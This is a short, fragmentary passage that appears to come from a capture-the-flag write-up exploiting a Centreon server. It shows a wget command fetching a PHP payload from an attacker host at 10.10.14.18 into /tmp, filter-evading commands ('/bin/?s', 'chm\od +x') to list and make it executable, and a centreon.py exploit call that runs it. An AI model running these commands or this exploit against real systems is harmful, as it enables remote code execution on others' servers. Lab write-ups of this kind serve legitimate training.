 wget http://10.10.14.18/w.php -P /tmp
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/2.PNG)

---

```
/bin/?s /tmp"
w.php

```
---


```
chm\od +x /tmp/w.php

mode of &#039;/tmp/w.php&#039; changed from 0644 (rw-r--r--) to 0755 (rwxr-xr-x)

```
---
./centreon.py ip port "php /tmp/w.php"
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/3.PNG)
